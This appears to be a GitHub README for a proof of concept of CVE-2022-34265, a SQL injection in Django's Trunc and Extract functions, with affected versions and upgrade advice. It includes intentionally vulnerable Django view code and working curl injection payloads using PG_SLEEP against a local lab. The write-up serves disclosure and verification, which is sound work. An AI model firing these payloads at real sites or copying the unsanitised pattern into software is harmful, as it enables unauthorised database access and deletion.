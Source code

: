 # CVE-2022-34265

PoC for CVE-2022-34265 (Django)

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/aeyesec](https://github.com/aeyesec) |
| Url      | [https://github.com/aeyesec/CVE-2022-34265](https://github.com/aeyesec/CVE-2022-34265)                                               |
| Stars    | 116                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2022-34265

## Usage

**start**
```bash
docker-compose build
docker-compose up -d
```

**stop**
```bash
docker-compose down
```

## PoC verification of Django vulnerability (CVE-2022-34265)

A vulnerability (CVE-2022-34265) in Django was disclosed on July 5, 2022 (US time). This article describes our discussion of this vulnerability and the results of our verification.

### Vulnerability Summary
This vulnerability is due to improper string processing when executing SQL for the arguments of the functions `Trunc` and `Extract` used for date data in Django. By specifying the request parameters as is in the `kind` argument of `Trunc` or the `lookup_name` argument of `Extract`, there is a risk that arbitrary SQL minutes can be executed.
By exploiting this vulnerability, a third party can send commands to the database to access unauthorized data or delete the database.

### Affected Versions
- Django 3.2.x prior to 3.2.14 
- Django 4.0.x prior to 4.0.6

### Countermeasures
- Update to Django 3.2.14 or higher.
- Update to Django 4.0.6 or higher.

### Vulnerability History and Considerations
Many of the vulnerabilities discovered in Django in the past were SQL Injection vulnerabilities, and we wondered if there were other vulnerabilities like [CVE-2020-7471](https://nvd.nist.gov/vuln/detail/CVE-2020-7471), so we checked the database function arguments in turn, we found arguments that had not been detoxified, and [Takuto Yoshikai](https://twitter.com/TakutoYoshikai) (the author) reported this to the IPA and the Django development team.

As a result, in the release resolving CVE-2022-34265
- String handling of vulnerable arguments
  - String handling to prevent SQL statement corruption when single quotes or other characters are included in arguments

The following actions have been taken to address these issues.

### Verification environment
- ThinkPad Ubuntu20.04
- Python 3.9.7
- Django 4.0.5

### Verification procedure and results

#### Configuration
- Project Name: project
- Application Name: vuln

#### Source Code

**vuln/models.py**

We used an example from [Django Documentation](https://docs.djangoproject.com/en/4.0/ref/models/database-functions/), model for a table that records the start and end time of a date.
```python
from django.db import models

class Experiment(models.Model):
    start_datetime = models.DateTimeField()
    start_date = models.DateField(null=True, blank=True)
    start_time = models.TimeField(null=True, blank=True)
    end_datetime = models.DateTimeField(null=True, blank=True)
    end_date = models.DateField(null=True, blank=True)
    end_time = models.TimeField(null=True, blank=True)
```

**vuln/views.py**
```python
from django.http.response import JsonResponse
from datetime import datetime
from django.db.models.functions import Extract, Trunc
from django.db.models import DateTimeField
from vuln.models import Experiment
from django.core import serializers

# /extract/?lookup_name=xxx

def vuln_extract(request):
    payload = request.GET.get('lookup_name')
    start = datetime(2015, 6, 15)
    end = datetime(2015, 7, 2)
    Experiment.objects.create(
        start_datetime=start, start_date=start.date(),
        end_datetime=end, end_date=end.date())
    experiments = Experiment.objects.filter(start_datetime__year=Extract('end_datetime', payload))
    return JsonResponse({"res": serializers.serialize("json", experiments)})

# /trunc/?kind=xxx
def vuln_trunc(request):
    payload = request.GET.get('kind')
    start = datetime(2015, 6, 15)
    end = datetime(2015, 7, 2)
    Experiment.objects.create(
        start_datetime=start, start_date=start.date(),
        end_datetime=end, end_date=end.date())
    experiments = Experiment.objects.filter(start_datetime__date=Trunc('start_datetime', payload))
    return JsonResponse({"res": serializers.serialize("json", experiments)})

```


```python
# Extract
Experiment.objects.filter(start_datetime__year=Extract('end_datetime', payload))
```
This filters the year numbers in the start_datetime column of Experiment that are the same as the year, month, day, hour, minute, second, etc. of end_datetime. SQL Injection vulnerability may be triggered from here.


```python
# Trunc
Experiment.objects.filter(start_datetime__date=Trunc('start_datetime', payload))
```
The Trunc function is used to truncate specific year, month, day, hour, minute, second, etc. portions of date and time data.
In the above example, start_datetime and start_datetime with the payload portion truncated are the same record.
This is where the SQL Injection vulnerability could be triggered.

#### PoC
To verify that the attack succeeds, use the PG_SLEEP instruction to see if there is a delay in the time the response is returned.

```bash
# Normal URL
curl "http://localhost:4131/extract/?lookup_name=year"
curl "http://localhost:4131/trunc/?kind=year"

# URL where the database instruction can be executed
curl "http://localhost:4131/extract/?lookup_name=year%27%20FROM%20start_datetime))%20OR%201=1;SELECT%20PG_SLEEP(5)--"
curl "http://localhost:4131/trunc/?kind=year%27,%20start_datetime))%20OR%201=1;SELECT%20PG_SLEEP(5)--"
```

I have specified 5 seconds in PG_SLEEP, but it seems that PG_SLEEP(5) takes several seconds. It seems to be called several seconds depending on the implementation and situation.
Since arbitrary SQL statements can be executed, dangerous attacks such as database deletion are possible.

### Summary
As a result of our discussion and verification, we found that there is no small possibility of a successful attack depending on the implementation. We recommend that you update your system as soon as possible to avoid the risk of DROP TABLE in the worst case scenario.

### Reference Information
- https://www.djangoproject.com/weblog/2022/jul/04/security-releases/
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-34265
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-7471





## Get the content

```
git clone https://github.com/aeyesec/CVE-2022-34265
cd CVE-2022-34265
```

{% embed url="https://github.com/aeyesec/CVE-2022-34265" %}

<figure><img src="https://avatars.githubusercontent.com/u/61375985?v=4" alt=""><figcaption><p>aeyesec</p></figcaption></figure>
